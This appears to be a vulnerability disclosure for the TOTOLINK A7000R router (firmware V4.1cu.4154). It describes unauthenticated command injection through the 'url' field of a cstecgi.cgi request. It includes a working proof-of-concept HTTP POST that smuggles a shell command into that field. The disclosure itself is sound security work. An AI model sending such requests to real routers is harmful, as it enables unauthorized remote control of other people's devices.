



# Information


**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** A7000R

**Affected firmware version:** V4.1cu.4154

**Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/index/product.html?product=A7000R))

# Overview

Critical unauthorized command execution has been found in the TOTOLINK A7000R router. The vulnerability can be triggered via route `/cgi-bin/cstecgi.cgi`. An attacker can achieve unauthorized RCE by sending an HTTP POST request, specifically by making a request to `setting/CloudACMunualUpdateUserdata`.

# Vulnerability details

You can see the `CloudACMunualUpdateUserdata` handler here



Here, the URL is valued, and then spliced into the system function for command execution



# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 106
Cache-Control: max-age=0
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/login.asp
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

{"topicurl":"setting/CloudACMunualUpdateUserdata",
"url":";ls / >  /etc_ro/web/12.txt;",
"name":"123"
}
```

